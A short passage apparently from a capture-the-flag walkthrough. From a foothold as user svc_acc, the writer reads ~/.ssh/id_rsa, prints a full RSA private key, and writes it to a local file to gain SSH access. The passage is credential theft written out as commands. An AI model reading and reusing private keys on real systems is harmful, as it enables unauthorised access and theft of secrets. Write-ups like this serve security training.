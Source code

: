 I'll grab the ssh keys to get a nice shell:

```bash
svc_acc@late:~/app$ cat ~/.ssh/id_rsa
cat ~/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----
svc_acc@late:~/app$ 
```

copy it into a file and connect:

```bash
[werz@ctf01 user]$ echo "-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----" > id_rsa
```
